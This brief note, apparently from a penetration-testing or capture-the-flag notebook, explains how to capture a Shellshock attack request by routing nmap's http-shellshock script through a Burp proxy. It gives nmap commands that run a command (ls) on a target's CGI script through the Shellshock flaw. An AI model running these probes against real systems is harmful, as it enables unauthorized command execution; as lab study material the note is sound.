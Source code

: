 **To caputer the shellshock request:**
1. In burp add a proxy 127.0.0.1:8081 and also set **Request Handling** to redrect the request to server
2. mofiy the nmap request 
	Nmap Original: `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls $IP`
	Nmap Modified:`sudo nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1`